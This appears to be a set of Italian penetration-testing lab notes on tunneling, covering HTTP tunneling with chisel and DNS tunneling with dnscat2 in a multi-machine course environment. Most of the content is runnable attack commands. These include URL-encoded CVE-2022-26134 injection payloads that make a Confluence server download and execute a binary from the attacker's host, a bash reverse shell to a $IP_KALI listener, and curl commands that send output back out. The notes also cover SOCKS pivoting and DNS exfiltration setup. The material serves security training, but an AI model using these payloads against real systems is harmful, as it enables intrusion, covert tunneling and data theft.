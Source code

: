 # 19.1 HTTP Tunneling Theory and Practice

## 19.1.2 HTTP Tunneling with Chisel

Nel caso illustrato, abbiamo compromesso la 2 macchina e possono essere esguiti comandi tramite richieste HTTP. Tuttavia, è presente una soluzione DPI (Deep Packet Inspection) che nega tutto il traffico in uscita tranne quello HTTP. Inoltre, tutte le porte in entrata sulla 2 macchina vengono bloccate tranne la 8090. Non si può ne creare una reverse-shell ne eseguire port forwarding remoto SSH. 

Il firewall blocca tutto il traffico per la 3 macchina.

Abbiamo le credenziali per la 4 macchina.

![[HTTP_Tunneling_with_Chisel.png]]

In questo caso occorre utilizzare **chisel**, un tool che permette di fare HTTP tunneling incapsulando strem di dati tramite HTTP. Inoltre, utilizza anche il protocollo SSH tramite il tunnel, quindi i dati sono criptati. Questo utilizza un modello client/server è può essere utilizzato molti sistemi (windows, linux, macOS).

Potremmo lanciare un server chisel su kali (1 macchina) e un client chisel sulla 2 macchina.

![[HTTP_Tunneling_with_Chisel_2.png]]

Cerchiamo chisel su kali (1 macchina):

```bash
which chisel
```

E trasferiamolo sulla 2 macchina lanciando questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
wget $IP_KALI:8080/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

Ora che abbiamo chisel da entrambe le parti lanciamo questo comando su kali (1 macchina):

```bash
chisel server --port 8080 --reverse
```

Per osservare il traffico lanciamo questo comando su kali (1 macchina):

```
sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Per avviare il client chisel sulla 2 macchina lanciamo questo comando su kali (1 macchina):

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks > /dev/null 2>&1 &
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Nel caso non dovesse funzionare, per poter capire il problema, bisognerebbe provare con questo comando:

(comando wget da integrare nel comando curl)

```bash
/tmp/chisel client $IP_KALI:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://$IP_KALI:8080/
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

L' errore è il seguente:

```bash
/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

Per risolverlo:

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz

gunzip chisel_1.8.1_linux_amd64.gz

mv chisel_1.8.1_linux_amd64 chisel 
```

Ora bisogna trasferire questa versione di chisel sulla 2 macchina e farlo partire:

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20$IP_KALI:8080/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%2/0/tmp/chisel%27%29.start%28%29%22%29%7D
```

```bash
curl http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20$IP_KALI:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://$IP_KALI:8080/%27%29.start%28%29%22%29%7D/
```

Avviamo il servizio ssh sulla macchina kali (1 macchina):

```bash
sudo ss -ntplu
```

Ora la porta proxy SOCKS 1080 è in ascolto sull'interfaccia di loopback della Kali (1 macchina). Dobbiamo sfruttarlo per connetterci al server SSH della 3 macchina. Per farlo utilizziamo ncat:

```bash
sudo apt install ncat

ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@$IP_3_MACCHINA
```

Potrebbe essere utilizzando anche _proxychains_ modificando l'apposito file di configurazione.

# 19.2 DNS Tunneling Theory and Practice

## 19.2.1. DNS Tunneling Fundamentals

Funzionamento DNS:

![[DNS_Tunneling_Fundamentals.png]]

Nel caso illustrato abbiamo un nuovo server FELINEAUTHORITY (6 macchina) sulla WAN della nostra kali (1 macchina). Questo significa che MULTISERVER03 (3 macchina), CONFLUENCE01 (2 macchina), e la Kali (1 macchina) possono raggiungerlo, ma PGDATABASE01 (4 macchina) e HRSHARES (5 macchina) no.

La 6 macchina è registrata in questa rete come l'authoritative name server per la zona **feline.corp**. Potremmo utilizzarlo per vedere come i pacchetti DNS raggiungono un authoritative name server. In particolare, possiamo studiare come i pacchetti DNS sono scambiati tra la 4 macchina e la 6 macchina.

Ma la 4 macchina non può raggiungere direttamente la 6 macchina. Per farlo, potrebbe connettersi alla 3 macchina che tra l'altro è il suo server DNS resolver.

![[Pasted image 20240508161414.png]]

Come prima, compromettiamo la 2 macchina utilizzando CVE-2022-26134:

```bash
curl -v http://$IP_2_MACCHINA:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/$IP_KALI/7777%200%3E%261%27%29.start%28%29%22%29%7D/
```

Da qui ci colleghiamo tramite ssh alla 4 macchina e tramite un altro terminale effettuiamo anche il collegamento alla 6 macchina tramite ssh (con le credenziali fornite).

Utilizziamo _Dnsmasq_ per simulare un setup DNS reale sulla 6 macchina:

```bash
cd dns_tunneling

cat dnsmasq.conf

cat dnsmasq_txt.conf

sudo dnsmasq -C dnsmasq.conf -d
```

Sempre sulla 6 macchina lanciamo questo comando su un altro terminale:

```bash
sudo tcpdump -i ens192 udp port 53
```

Sulla 4 macchina:

```bash
resolvectl status

nslookup exfiltrated-data.feline.corp
```

CONTINUA SUL PDF...

## 19.2.2. DNS Tunneling with dnscat2

_dnscat2_ può essere utilizzato per esfiltrare data tramite query a sottodomini DNS e infiltrare dati TXT (e altri) record.

6 macchina:

```bash
sudo tcpdump -i ens192 udp port 53
```

6 macchina:

```bash
dnscat2-server feline.corp
```

4 macchina:

```bash
cd dnscat/
./dnscat feline.corp
```

6 macchina:

```bash
dnscat2-server feline.corp

window -i 1

listen 0.0.0.0:4646 $IP_5_MACCHINA:4646
```

1 macchina:

```bash
./dnscat_exercise_client -i $IP_6_MACCHINA -p 4646
```
